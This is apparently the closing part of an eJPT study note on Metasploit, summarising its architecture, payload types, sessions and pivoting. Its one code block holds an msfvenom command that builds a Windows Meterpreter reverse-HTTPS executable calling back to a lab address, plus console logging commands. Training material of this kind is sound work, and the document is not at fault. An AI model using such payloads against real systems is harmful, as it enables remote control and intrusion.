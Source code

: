 ```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.5 LPORT=443 -f exe -o shell.exe

# Save & logs
save
spool /tmp/msf.log
spool off
```

## Summary
- Metasploit’s architecture layers interfaces (msfconsole, msfvenom, RPC) over core libraries (Rex, Msf::Core) that load a rich module ecosystem (exploit/auxiliary/payload/encoder/nop/post).
- The datastore (global vs module), database (PostgreSQL), and workspaces structure your engagement data and options.
- Payload design (staged vs single, reverse vs bind) dictates how sessions are established and handled.
- Sessions unlock post-exploitation; routing and handlers enable pivoting and multi-stage operations.
- Extensibility comes from plugins, RPC, resource scripts, and custom modules, letting you automate and scale tasks.
- These building blocks form the standard eJPT workflow: import recon → pick module → configure → run → manage sessions → post-exploit → collect/report.